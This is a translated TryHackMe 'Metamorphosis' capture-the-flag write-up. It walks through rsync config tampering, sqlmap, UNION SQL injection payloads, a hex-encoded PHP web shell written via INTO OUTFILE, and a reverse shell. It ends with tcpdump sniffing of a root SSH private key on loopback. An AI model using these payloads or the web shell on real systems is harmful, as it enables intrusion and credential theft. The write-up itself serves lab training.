# TryHackMe:变形

> 原文：<https://infosecwriteups.com/tryhackme-metamorphosis-81e1db375056?source=collection_archive---------1----------------------->


# 最初的立足点

通过进行 Nmap 扫描，我们可以让服务在机器上运行。

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:0f:0a:18:50:78:07:10:f2:32:d1:60:30:40:d4:be (RSA)
|   256 5c:00:37:df:b2:ba:4c:f2:3c:46:6e:a3:e9:44:90:37 (ECDSA)
|_  256 fe:bf:53:f1:d0:5a:7c:30:db:ac:c8:3c:79:64:47:c8 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp open  rsync       (protocol version 31)
Service Info: Host: INCOGNITO; OS: Linux; CPE: cpe:/o:linux:linux_kernelHost script results:
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
|_nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-04-17T15:35:53+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-17T15:35:53
|_  start_date: N/A
```

首先，我们检查机器上运行的 web 服务，我们得到了 ubuntu 的默认页面，如果你在域上进行目录强制，你会发现它有一个管理端点，但当我们去的时候，它显示 403 禁止，当我们检查源代码时，它说。

```
**<html> <head><h1>403 Forbidden</h1></head><! — Make sure admin functionality can only be used in development environment. →</html>**
```

这意味着我们目前处于生产环境中，我们必须想办法进入生产环境。为此，我们可以检查其他服务。所以我们有了 Rsync 和 Rsync，Rsync 用于通过比较文件的修改时间和大小，在计算机和外部硬盘之间以及联网的计算机之间传输和同步文件。

所以让我们看看通过 Rsync 可以得到的 dir

```
└─$ rsync -av rsync://10.10.130.243/                                                                    
Conf            All Confs
```

现在检查 Conf 目录中的文件



同步/下载 Conf 目录中的文件，因为该功能通过 Rsync 服务同步文件。

```
rsync -a "rsync://IP/Conf" ./
```



这里我们有服务器使用的“ **webapp.ini** ”文件，我们可以在其中指定“开发”环境，并将 webapp.ini 文件与服务器同步

```
rsync ./webapp.ini "rsync://IP/Conf/webapp.ini"
```

现在我们可以访问'[http://10 . 10 . 242 . 95/admin/](http://10.10.242.95/admin/)'



为了识别 Sqli 的有效负载，我们将首先捕获 burp 中的请求并保存该请求。

```
POST /admin/config.php HTTP/1.1
Host: 10.10.176.232
Content-Length: 13
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: [http://10.10.176.232](http://10.10.176.232)
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-GPC: 1
Referer: [http://10.10.176.232/admin/](http://10.10.176.232/admin/)
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: closeusername=x3rz
```

保存后，我们将使用 sqlmap 运行它。

```
sqlmap -r sqli.request -p username --risk 3 --level 5
```

这将向我们显示 webapp 中的负载和漏洞名称。

有效载荷:

```
x3rz" UNION ALL SELECT NULL,NULL,CONCAT(0x717a7a7871,0x437257454b476461616b5a705266745776585066456576576b4665426e63624d774a45575475474d,0x717a766a71)-- -
```

基本上有 3 列。现在让我们通过使用 user()、version()或 database()内置的 SQL 函数来找出易受攻击的列。

```
x3rz" UNION ALL SELECT version(),user(),database() -- -
```



所以它给出了 user()和 database()输出，所以第 2 列和第 3 列容易受到攻击。

现在让我们得到我们的 RCE。

对于 RCE，我们将按照易受攻击的列将 PHP 代码写入文件。

```
print (("<? system($_GET['cmd’]); ?>").encode('utf-8').hex())
3c3f7068702073797374656d28245f4745545b27636d64275d293b3f3e
```

这是我们的 PHP 代码的十六进制，我们这样做是为了绕过过滤，所以它不会改变我们的有效载荷文件的内容。

有效载荷:

```
x3rz" UNION ALL SELECT NULL,0x3c3f7068702073797374656d28245f4745545b27636d64275d293b3f3e,NULL INTO OUTFILE "/var/www/html/revshell.php"-- -
```

现在让我们访问实例[上的有效负载 http://10 . 10 . 46 . 175/revshell . PHP](http://10.10.46.175/revshell.php?cmd=id)



我们做了 RCE 现在时间进入盒子，为此我们必须执行 netcat 或任何 rev shell 命令的 python，ruby，PHP，或任何东西，但在我的情况下，这些不工作，所以我尝试了另一种方法，我下载了 pentester 猴子反向外壳到机器上使用 wget，并从机器上获得反向连接。



现在，我们必须开始在机器内部进行枚举，以找到将引导我们找到系统根的东西。我做了基本的枚举，如 SUID 位、检查备份和功能。在功能中，我们发现了一些不常见的东西，那就是 tcpdump。

```
getcap -r / 2>/dev/null/usr/sbin/tcpdump = cap_net_raw+ep
```

如果我们在机器上执行 linpeas，我们还会发现 127.0.0.1:1024 ( python)上的一些活跃的互联网连接(服务器和已建立的连接),并且 linpeas 还会告诉我们可以通过 tcpdump 进行监听。但是对于 tcpdump，我们必须指定我们必须嗅探的接口，因为我们已经知道一些服务正在 127.0.0.1 上运行，因此我们必须嗅探 **localhost 接口(环回)**。我们不知道接口缩写，只要做 ifconfig，你就会在那里找到它，即 **lo** 。



```
tcpdump -A -n -i lo -vvv
```

等待一段时间，我们得到了 ssh 私有密钥，我试着用它作为 root 登录，它成功了。我们终于扎根了。



SSH 私钥



根

**奖励:**根目录下多了两个文件。一个是 req.sh，另一个是 serv.py。因此 serv.py 是托管在 127.0.0.1:1024 上的 flask 应用程序，它具有私钥，系统持续执行 req.sh，它将 curl 请求发送到 flask 服务器，如果 admin 的值正确，它将返回我们的私钥。



感谢阅读😄